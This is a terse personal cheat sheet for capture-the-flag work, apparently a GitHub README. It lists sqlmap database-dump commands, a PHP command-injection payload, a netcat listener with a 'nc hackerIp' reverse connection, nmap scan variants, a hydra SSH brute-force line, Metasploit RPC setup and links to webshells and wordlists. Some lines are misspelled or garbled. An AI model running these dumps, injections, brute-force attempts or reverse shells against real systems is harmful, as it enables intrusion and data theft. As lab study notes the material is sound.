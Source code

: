 # ctf


rapid7


${system('ls')}


run rpc/
msfrpcd -P mypassword -U myuser -t Basic -n -p 55553

then run armitage/
armitage

snoopy


locate filename



image:


file filename


strings 


binwolk filename






whatweb ip
joomscan
wpsscan


exploit Joomla! 3.7.0


cat 
vi :q!
vi :wq!

cp usr/bi/a b 


sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump


sqlmap -u url -D database --dump-all --batch


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all -batch  -v 3



sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


sqlmap -r file.txt -p username


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/


Crowler:
sqlmap -u http://testphp.vulnweb.com/ -crawl=3


cp file newName ========= le nouveau local c'est ou tu est positionner 


https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan



BRUTFORCE 


hydra -l root -p rockyou.txt -u  -s 22  192.168.160.181 ssh 


https://github.com/jeanphorn/wordlist/blob/master/usernames.txt


cryptography


https://gchq.github.io/CyberChef/


http://www.jsfuck.com/#


https://morsecode.world/international/translator.html


ls -lh /usr/share/wordlists/



https://www.kali.org/tools/wordlists/
